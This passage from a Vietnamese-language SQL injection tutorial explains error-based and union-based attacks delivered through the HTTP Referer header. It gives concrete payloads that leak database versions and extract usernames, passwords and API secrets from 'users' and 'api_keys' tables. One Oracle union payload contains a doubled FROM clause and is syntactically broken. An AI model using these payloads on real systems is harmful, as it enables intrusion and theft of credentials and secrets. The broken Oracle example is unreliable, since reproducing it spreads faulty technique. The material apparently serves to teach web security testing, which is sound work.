 **Ví dụ payload cụ thể qua Referer (áp dụng từ ví dụ URL parameter):**
* **Để gây lỗi cú pháp cơ bản:**
    ```
    Referer: 123'
    ```
    * Nếu giá trị Referer được đặt trong dấu nháy đơn trong truy vấn, việc thêm dấu nháy đơn này sẽ phá vỡ cú pháp và gây ra lỗi SQL.
* **Để trích xuất thông tin phiên bản database (MySQL):**
    ```
    Referer: ' AND EXTRACTVALUE(1, CONCAT(0x7e, VERSION()))--
    ```
    * Payload này sử dụng hàm `EXTRACTVALUE` để gây lỗi XPATH, trong đó thông tin phiên bản MySQL sẽ được hiển thị trong thông báo lỗi.
* **Để trích xuất thông tin hostname hoặc user (Oracle):**
    ```
    Referer: 123||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
    ```
    * Payload này sử dụng hàm `UTL_INADDR.GET_HOST_NAME()` để gây lỗi, trong đó thông tin hostname hoặc user có thể bị tiết lộ trong thông báo lỗi.

**Ưu điểm:**
* Có thể trích xuất thông tin chi tiết về cơ sở dữ liệu một cách nhanh chóng nếu thông báo lỗi được hiển thị.
* Không cần nhiều yêu cầu như các kỹ thuật blind SQLi.

**Nhược điểm:**
* Phụ thuộc hoàn toàn vào việc ứng dụng hiển thị lỗi chi tiết, điều này thường được tắt trong môi trường sản phẩm để tránh rò rỉ thông tin.
* Có thể bị WAF phát hiện nếu các mẫu lỗi được biết đến.

### 4.4. SQL Injection dựa trên UNION (Union-Based SQLi)

**Cơ chế hoạt động:** Khi ứng dụng dễ bị SQL Injection và kết quả của truy vấn được trả về trực tiếp trong phản hồi của ứng dụng, kẻ tấn công có thể sử dụng toán tử `UNION` để kết hợp kết quả của một truy vấn độc hại (ví dụ: truy vấn lấy dữ liệu từ bảng `users`) với truy vấn gốc. Điều này cho phép trích xuất dữ liệu từ các bảng khác trong cơ sở dữ liệu và hiển thị chúng trên trang web.

Để một truy vấn `UNION` hoạt động, hai yêu cầu chính phải được đáp ứng:
1.  Các truy vấn riêng lẻ phải trả về cùng số lượng cột.
2.  Kiểu dữ liệu trong mỗi cột phải tương thích giữa các truy vấn.

**Cách xác định số cột và kiểu dữ liệu:**
* **Xác định số cột:**
    * Sử dụng mệnh đề `ORDER BY` và tăng dần chỉ số cột cho đến khi gặp lỗi (ví dụ: `ORDER BY 1--`, `ORDER BY 2--`). Số cột chính xác là số lớn nhất không gây lỗi.
    * Hoặc sử dụng `UNION SELECT NULL, NULL,...` và điều chỉnh số lượng `NULL` cho đến khi không còn lỗi. `NULL` được sử dụng vì nó có thể chuyển đổi sang mọi kiểu dữ liệu phổ biến.
* **Tìm cột có kiểu dữ liệu phù hợp:** Sau khi biết số cột, chèn một giá trị chuỗi vào từng cột (ví dụ: `UNION SELECT 'a', NULL, NULL--`). Nếu cột đó không tương thích với kiểu chuỗi, sẽ xảy ra lỗi.

**Ví dụ payload cụ thể qua Referer (áp dụng từ ví dụ User-Agent):**
* **Để trích xuất tên người dùng và mật khẩu từ bảng `users`:**
    ```
    Referer: ' UNION SELECT username, password FROM users--
    ```
* **Để trích xuất phiên bản SQLite và secret từ bảng `api_keys`:**
    ```
    Referer: 'Union%20select%201,sqlite_version(),(SELECT%20secret%20FROM%20api_keys),4,5,6,7,8,9,10,11,12,13,14;--
    ``` (SQLite)
* **Đối với Oracle, cần thêm `FROM DUAL` hoặc một bảng hợp lệ:**
    ```
    Referer: ' UNION SELECT username || password FROM users FROM DUAL--
    ```
